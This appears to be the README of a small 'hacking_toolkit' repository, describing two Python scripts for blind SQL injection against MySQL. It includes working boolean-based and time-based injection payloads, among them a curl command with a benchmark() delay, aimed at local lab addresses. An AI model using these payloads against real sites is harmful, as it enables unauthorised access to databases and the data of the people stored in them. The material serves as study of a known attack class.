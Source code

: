 # hacking_toolkit

**requirements:**

* Python 3
* python-requests


## SQL Injection

Works on MySQL >= 5.

### blind_get_list_data.py
* Requires a vulnerable url with get param, and an expected string from normal result
* Uses bitwise operations to retrieve a character in 8 requests.

An url is vulnerable to this exploit if:

* Normal request `http://172.28.128.3:8007/membre.php?id=7` returns results
* Request `http://172.28.128.3:8007/membre.php?id=7' and 1='1` also
  returns results.
* But request `http://172.28.128.3:8007/membre.php?id=7' and 1='0`
  doesn't return any results.

This allows us to ask many yes/no questions to MySQL, and figure out table
names, columns names and data.


### blind_post_list_data.py
* Requires an url with vulnerable form, and its keys
* Uses bitwise operations to retrieve a character in 8 requests.

An url is vulnerable to this exploit if:

* a normal request is executed in some time, here **0.005s**

    $ time curl -d user_name="" -d password="" http://172.28.128.3:8009/validate.php &> /dev/null
    0.00s user 0.00s system 70% cpu 0.005 total

* the exploit takes much longer to return a result, here **1.5s**

    $ time curl -d user_name="' and if(1=1, benchmark(5000000,md5(char(1))),null)#" -d password="" http://172.28.128.3:8009/validate.php &> /dev/null
    0.00s user 0.00s system 0% cpu 1.505 total

This is the same principle as `blind_get_list_data.py`, except it's a post
request and we check the result by monitoring the execution time of the page

